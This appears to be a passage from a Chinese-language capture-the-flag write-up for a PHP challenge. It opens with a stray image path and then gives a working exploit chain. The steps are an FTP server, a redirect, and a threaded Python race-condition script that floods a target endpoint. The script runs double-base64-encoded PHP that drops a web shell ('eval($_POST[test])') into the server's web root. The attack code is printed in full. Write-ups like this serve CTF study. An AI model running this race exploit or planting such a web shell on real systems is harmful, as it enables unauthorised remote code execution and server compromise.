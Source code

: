 ftp

```sh
sudo python -m pyftpdlib -p 21
```

然后，在根目录(/)下，写一个firesun文件![firesun](https://mo-xiaoxi.github.io/img/post/another/firesun.png)

测试一下，请求http://106.14.61.185:8080/test.html 它会转到ftp://106.14.61.185/firesun

接下来，我参考了[lorexxar](http://lorexxar.cn/2017/03/05/pwnhub-another-php/)里面的脚本，跑了一下。

```python
import requests
import threading
import time
from random import Random
url = "http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/a9b4d7cc810da015142f61f7e236d50b.php"
def down(cookie):
    data = {'image': 'http://106.14.61.185:8080/pwnhub.png'}
    r = requests.post(url, data = data, cookies=cookie)
def ri(cookie):
    s = requests.Session()
    data = {'pwnhub': 'ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UveGlhb3hpLnBocCIsIGJhc2U2NF9kZWNvZGUoIlBEOXdhSEFnWlhaaGJDZ2tYMUJQVTFSYmRHVnpkRjBwT3o4KyIpKTs='}
    r = s.post(url + "?pwnhub=firesun", data = data, cookies=cookie)
    if "Hacked by Firesun" in r.text:
        print r.text
def random_str(randomlength=8):
    str = ''
    chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
    length = len(chars) - 19
    random = Random()
    for i in range(randomlength):
        str+=chars[random.randint(0, length)]
    return str
for i in range(0,10000):
    session = random_str(26)
    cookie = {'PHPSESSID': session}
    threading.Thread(target = down,args = (cookie,)).start()
    threading.Thread(target = ri,args = (cookie,)).start()
```

注：base64字符集不包含<?> 所以，这里要二重base64编码

```Php
ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UveGlhb3hpLnBocCIsIGJhc2U2NF9kZWNvZGUoIlBEOXdhSEFnWlhaaGJDZ2tYMUJQVTFSYmRHVnpkRjBwT3o4KyIpKTs=

file_put_contents("/var/www/html/2d9bc625acb1ba5d0db6f8d0c8b9d206/image/xiaoxi.php", base64_decode("PD9waHAgZXZhbCgkX1BPU1RbdGVzdF0pOz8+"));

PD9waHAgZXZhbCgkX1BPU1RbdGVzdF0pOz8+

<?php eval($_POST[test]);?>
```
